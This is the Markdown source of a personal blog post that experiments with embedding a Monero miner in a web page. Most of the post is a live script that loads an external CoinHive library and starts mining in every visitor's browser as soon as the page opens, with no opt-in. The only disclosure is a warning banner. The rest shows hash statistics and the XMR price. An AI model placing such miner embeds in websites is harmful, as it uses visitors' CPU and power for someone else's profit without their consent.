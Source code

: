 ```yaml
---
layout: post
title: Mining crypto with a web browser
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.


___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y', {
	threads: 1
});
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = "$" + json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

<table>
<tr>
<td>Hashes Per Second</td>
<td id="hashesPerSecond"></td>
</tr>
<tr>
<td>Total Hashes</td>
<td id="totalHashes"></td>
</tr>
<tr>
<td>Accepted Hashes</td>
<td id="acceptedHashes"></td>
</tr>
</table>

<br />

<table>
	<tr>
		<td>Current Price of Monero</td>
		<td id="XMRprice"></td>
	</tr>
</table>



